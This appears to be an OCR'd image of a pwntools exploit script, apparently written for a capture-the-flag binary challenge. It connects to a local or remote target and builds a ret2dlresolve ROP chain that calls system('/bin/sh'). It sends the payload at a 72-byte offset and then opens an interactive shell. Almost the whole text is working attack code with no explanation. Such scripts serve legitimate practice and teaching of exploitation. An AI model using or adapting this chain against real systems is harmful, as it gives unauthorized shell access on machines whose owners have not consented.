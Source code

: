 ```python
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./glibc/'

ret = 0x0000000000401016

io = start()

rop = ROP(exe)
dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=["/bin/sh\0"])
rop.read(0, dlresolve.data_addr)
rop.raw(ret)
rop.ret2dlresolve(dlresolve)
print(rop.dump())

payload = fit({
    72: rop.chain(),
}, length=199)

log.info(f"payload is {len(payload)} bytes")
input('\n[Press ENTER to send payload]\n')
io.sendline(payload)
io.sendline(dlresolve.payload)

io.interactive()

```
